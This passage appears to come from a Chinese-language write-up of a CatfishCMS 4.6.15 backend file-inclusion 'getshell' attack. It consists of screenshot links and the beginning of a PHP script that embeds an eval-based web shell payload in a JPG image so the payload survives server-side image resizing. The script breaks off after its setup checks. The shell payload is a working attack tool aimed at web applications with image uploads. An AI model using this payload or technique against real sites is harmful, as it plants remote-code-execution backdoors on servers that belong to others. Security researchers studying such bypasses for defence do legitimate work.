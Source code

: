 制作过程：

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId31.png)

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId32.png)

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId33.png)

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId34.png)

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId35.png)

![](./resource/CatfishCMS4.6.15后台文件包含getshell/media/rId36.png)

图片马制作脚本

    <?php
        /*

        The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
        caused by PHP functions imagecopyresized() and imagecopyresampled().
        It is necessary that the size and quality of the initial image are the same as those of the processed
        image.

        1) Upload an arbitrary image via secured files upload script
        2) Save the processed image and launch:
        php jpg_payload.php <jpg_name.jpg>

        In case of successful injection you will get a specially crafted image, which should be uploaded again.

        Since the most straightforward injection method is used, the following problems can occur:
        1) After the second processing the injected data may become partially corrupted.
        2) The jpg_payload.php script outputs "Something's wrong".
        If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
        initial image.

        Sergey Bobrov @Black2Fan.

        See also:
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

        */

        $a = '$_POST[eeeeeee]';
        $miniPayload = "<?php eval($a); ?><?php echo phpinfo(); ?>";
        /*$miniPayload = "<?php echo phpinfo(); ?>";*/
        if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
            die('php-gd is not installed');
        }
        
        if(!isset($argv[1])) {
            die('php jpg_payload.php <jpg_name.jpg>');
        }
